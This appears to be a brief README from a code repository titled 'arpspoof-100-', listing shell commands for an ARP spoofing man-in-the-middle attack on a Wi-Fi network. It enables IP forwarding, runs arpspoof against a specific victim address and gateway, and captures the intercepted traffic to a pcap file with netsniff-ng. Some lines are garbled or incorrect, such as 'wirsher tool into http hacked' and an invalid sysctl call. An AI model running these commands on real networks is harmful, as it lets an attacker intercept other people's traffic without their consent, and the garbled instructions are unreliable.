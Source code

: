 # arpspoof-100-

echo 1>/proc/sys/net/ipv4/ip_forward

cat /proc/sys/net/ipv4/ip_forward

#Or

sysctl net.ipv4.ip_forward status

sysctl -w net.ipv4.ip_forward=1



block=0

unblock=1

arpspoof -i wlan0 -t 192.168.0.6 -r 192.168.0.1

wirsher tool into http hacked

## capture wirsher pcap file

netsniff-ng --in wlan0 --out baterb.pcap

